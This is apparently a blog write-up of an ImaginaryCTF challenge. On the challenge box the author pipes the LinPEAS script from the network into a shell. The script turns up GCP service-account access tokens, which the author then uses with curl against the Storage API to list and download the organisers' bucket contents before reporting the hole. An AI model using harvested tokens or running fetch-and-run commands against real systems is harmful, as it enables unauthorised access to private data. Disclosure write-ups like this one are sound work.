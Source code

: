 ```yaml
---
title: "How I (accidentally) hacked ImaginaryCTF infra"
date: 2023-07-23
tags: [writeups, ctfs]
---
```


For this years ImaginaryCTF I played with my friends at `les amateurs`. We ended up placing 12th out of 880 teams competing! There were lots of super interesting challenges and I look forward to competing in next year.

# Background
Just for fun, I had decided to look at the challenge `misc/obscured`

{{< zoom-img src="img/chall.png" >}}

When we connect to the challenge it would have us complete a PoW that would then give us a box to SSH into. Once I realized I have no clue what I'm doing, I decided to run a powerful Linux enumartion script (very skid), LinPEAS ([github](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)). This tool does a multitude of checks specifically looking for ways to escalate privileges. Since this box had access to the internet, we could easily run the command to download and run the script.

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Running this script revealing some interesting information. Obviously it did reveal some information about the intended challenge (polkit) but what caught my eye the most was that the script detected this was running in Google Cloud. Once the script learned that, it did some extra enumeration to look for information related to GCP. It was able to find things like the project ID, project SSH keys, and lots more. The most interesting out of all of that was the access tokens for GCP service accounts.

{{< zoom-img src="img/service-accounts.png">}}

# GCP Enumeration

At first I was unsure if we could use this for anything, but after a bit of research I realized we can use the access tokens to make API requests about the GCP project. And looking at the scopes we had access to, I decided to look at the GCP storage to see if this is something worth reporting.

Using the [GCP Storage JSON API documentation](https://cloud.google.com/storage/docs/json_api/v1) as a reference, I crafted the following request to list the available buckets.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b?project=[REDACTED]' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

Running this command revealed two buckets. To list the contents of the buckets, we could make the following cURL request.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b/[BUCKET ID]/o' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

One of them would end up being empty, however the other bucket would contain some pretty sensitive information. Each one of the object IDs looked something like this

`[REDACTED URL]/containers/images/sha256:[sha256 hash]/[some num]`

Noticing this I assumed this bucket contained all of the docker containers used for ImaginaryCTF. To double check, I tried downloading one of the files. Not exactly sure what the file was since it didn't look like a docker image, however it **did** contain a flag. 

# Conclusion
Once we found this, I immediately dm'd one of the organizers telling him what I found and gave all the information he asked for. We ended up not using the flag we found (since you shouldn't do that) and the challenge went down for maintenance to get fixed.

Thank you to Eth007 for handling the situation very well and not DQ'ing our team for this! Once again, this was an amazing CTF and I had high hopes that next year this problem won't happen again!

# Funny Screenshot
{{< zoom-img src="img/funny.png" >}}
{{< zoom-img src="img/eth-dumb.png" >}}
{{< zoom-img src="img/lmao.png" >}}
